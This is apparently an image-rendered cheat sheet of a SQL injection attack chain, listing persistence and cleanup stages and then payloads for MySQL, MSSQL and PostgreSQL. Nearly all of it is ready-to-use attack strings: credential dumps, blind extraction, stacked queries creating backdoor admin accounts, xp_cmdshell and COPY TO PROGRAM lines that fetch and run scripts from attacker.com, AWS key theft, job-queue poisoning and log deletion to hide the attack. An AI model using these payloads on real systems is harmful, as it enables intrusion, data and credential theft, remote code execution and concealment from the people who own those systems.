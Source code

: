 [10] Persistence
  └─► Create backdoor accounts
  └─► INSERT INTO users (admin) ...
  └─► Set scheduled jobs or cron tasks
  └─► Inject reverse shell into cron or task scheduler
  └─► Webshell deployment or DB triggers

[11] Cleanup (Optional in red team or stealth testing)
  └─► Remove logs, drop shell, disable accounts
  └─► DELETE FROM logs WHERE user='attacker'

***PoC Payloads: Steps 5–9***
**Step 5: Data Exfiltration**
MySQL:      ?id=1 UNION SELECT username, password FROM users-- -
MSSQL:      ?id=1; SELECT name, pass FROM members--
PostgreSQL: ?id=1 UNION SELECT username || ':' || password FROM auth_table--

*Blind SQLi (Time-Based - MySQL)*
  ?id=1 AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)-- -

**Step 6: Privilege Escalation**
Set Yourself as Admin
  '; UPDATE users SET role='admin' WHERE username='guest';--

Add a New Admin User (MySQL)
  '; INSERT INTO users (username, password, role) VALUES ('haxor', '123456', 'admin');--

MSSQL Escalation via Stacked Queries
  '; EXEC sp_addlogin 'haxor', 'Password123!'; EXEC sp_addsrvrolemember 'haxor', 'sysadmin';--

**Step 7: Remote Code Execution (RCE)**
MySQL – Write Web Shell
  ?id=1 UNION SELECT "" INTO OUTFILE '/var/www/html/shell.php'-- -

PostgreSQL – Command Execution
  COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/shell.sh | bash';

MSSQL – Using xp_cmdshell
  '; EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest http://attacker.com/shell.exe -OutFile C:\\shell.exe && Start-Process C:\\shell.exe"';--
                            *Prerequisite: xp_cmdshell must be enabled.*

**Step 8: Lateral Movement**
Enumerate Internal Services (from logs)
  UNION SELECT DISTINCT ip_address FROM logs WHERE url LIKE '%admin%'-- -

Extract AWS Keys
  SELECT config_value FROM config WHERE config_key LIKE '%aws%' OR config_key LIKE '%s3%';

Poison Internal Job Queue (Redis-style)
  INSERT INTO job_queue (task) VALUES ('curl http://attacker.com/malware.sh | bash');

Reuse Creds in Internal Admin Panel (if auth table leaked)
  POST /admin/login
  username=haxor&password=stolenpass

**Step 9: Persistence**
Add a New Web Admin
  INSERT INTO users (username, password, role) VALUES ('backdoor', 'pass123', 'admin');
